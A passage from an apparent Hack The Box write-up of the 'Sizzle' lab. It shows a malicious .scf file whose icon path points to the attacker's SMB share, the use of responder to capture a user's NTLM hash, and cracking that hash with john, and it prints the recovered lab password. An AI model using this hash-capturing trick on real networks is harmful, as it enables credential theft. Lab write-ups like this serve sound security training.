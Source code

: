 ![](/images/hackthebox/sizzle/11.png)
```
[Shell]
Command=2
IconFile=\\10.10.xx.xx\share\rick.ico
[Taskbar]
Command=ToggleDesktop
```
#### Then we will run `responder`. Whenever a user browses that directory he will automatically try to connect to my box through `smb`, that's when `responder` catches the hashes. More info in the link above. 
![](/images/hackthebox/sizzle/12.png)
<br>
<br>
`reponder -I tun0`
![](/images/hackthebox/sizzle/13.png)
#### `responder` caught hash for a user called `amanda`. Let's crack it with `john` :
![](/images/hackthebox/sizzle/14.png)
#### The password is `Ashare1972`
<br>
<hr>
### Requesting a Certificate, WinRm Session as amanda
#### I tried to access `certenroll` as `amanda` and it worked fine :